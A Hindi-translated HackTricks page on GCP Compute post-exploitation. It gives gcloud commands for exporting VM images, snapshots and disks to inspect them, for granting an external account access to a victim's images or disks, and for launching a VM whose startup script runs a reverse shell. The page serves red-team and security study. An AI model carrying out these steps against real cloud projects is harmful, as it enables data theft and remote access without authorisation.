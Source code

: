 # GCP - Compute Post Exploitation

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)\*\* पर फॉलो\*\* करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## कंप्यूट

कंप्यूट और VPC (नेटवर्किंग) के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### छवियों को स्थानीय रूप से निर्यात और जांचें

यह एक हमलावर को **पहुँचने की अनुमति देगा जो पहले से मौजूद छवियों में विशिष्ट डेटा तक पहुँच सकता है** या **चल रहे VMs की नई छवियाँ बना सकता है** और उनके डेटा तक पहुँच सकता है बिना चल रहे VM का उपयोग करने के लिए पहुँच।

एक VM छवि को एक बाल्टी में निर्यात करना संभव है और फिर इसे डाउनलोड करके निम्नलिखित कमांड के साथ स्थानीय रूप से माउंट करना:

```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```

इस कार्रवाई को करने के लिए हमें स्टोरेज बकेट पर विशेषाधिकार और निश्चित रूप से **क्लाउडबिल्ड पर विशेषाधिकार** की आवश्यकता हो सकती है क्योंकि यह **सेवा** है जिसे निर्यात करने के लिए कहा जाएगा। इसके अतिरिक्त, इसे काम करने के लिए कोडबिल्ड एसए और कंप्यूट एसए को विशेषाधिकार अनुमतियां चाहिए। क्लाउडबिल्ड एसए `<प्रोजेक्ट-आईडी>@cloudbuild.gserviceaccount.com` को चाहिए:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

और एसए `<प्रोजेक्ट-आईडी>-compute@developer.gserviceaccount.com` को चाहिए:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### स्नैपशॉट और डिस्क को स्थानीय रूप से निर्यात और जांच करें

स्नैपशॉट और डिस्क को सीधे निर्यात करना संभव नहीं है, लेकिन **स्नैपशॉट को एक डिस्क में परिवर्तित करना, एक डिस्क को एक इमेज में** संभव है और **पिछले खंड** का पालन करते हुए, उस इमेज को स्थानीय रूप से जांचने के लिए निर्यात करें।

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### एक छवि की जांच करें जो एक वीएम बनाने के लिए है

**एक छवि में संग्रहित डेटा** या **चल रही वीएम** में से जहां हमलावर ने **एक छवि बनाई है**, उस छवि पर एक बाह्य खाता को पहुंच देना संभव है:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```

और फिर इससे एक नया वीएम बनाएं:

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

यदि आप अपने बाह्य खाते को छवि पर पहुंच नहीं दे सकते थे, तो आप पीड़ित के परियोजना में उस छवि का उपयोग करके एक वीएम लॉन्च कर सकते थे और **मेटाडेटा को एक रिवर्स शैल निष्पादित करने के लिए** छवि तक पहुंचने के लिए पैरामीटर जोड़ें:

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

### स्नैपशॉट/डिस्क की जांच करें जो एक वीएम से जुड़ा हो

**एक डिस्क या स्नैपशॉट में संग्रहित डेटा तक पहुंचने की उद्देश्य से, आप स्नैपशॉट को एक डिस्क में बदल सकते हैं, एक डिस्क को एक इमेज में बदल सकते हैं और पिछले चरणों का पालन कर सकते हैं।**

या आप **डिस्क पर एक बाहरी खाता एक्सेस दे सकते हैं** (यदि प्रारंभिक बिंदु एक स्नैपशॉट है तो स्नैपशॉट पर एक्सेस दें या उससे एक डिस्क बनाएं):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**इंस्टेंस को डिस्क संलग्न करें**:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

वीएम के अंदर डिस्क माउंट करें:

1. **वीएम में एसएसएच करें**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2. **डिस्क की पहचान करें**: वीएम के अंदर जाने के बाद, नए डिस्क की पहचान करें डिस्क उपकरणों की सूची देखकर। सामान्यत: आप इसे `/dev/sdb`, `/dev/sdc`, आदि के रूप में पा सकते हैं।
3. **डिस्क को फॉर्मेट और माउंट करें** (अगर यह एक नया या रॉ डिस्क है):

* माउंट पॉइंट बनाएं:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

* डिस्क को माउंट करें:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

अगर आप **स्नैपशॉट या डिस्क को एक्सटर्नल प्रोजेक्ट को एक्सेस नहीं दे सकते** हैं, तो आपको संभावत: **स्नैपशॉट/डिस्क के समान प्रोजेक्ट में एक इंस्टेंस के अंदर इन क्रियाओं को करने की आवश्यकता** हो सकती है।
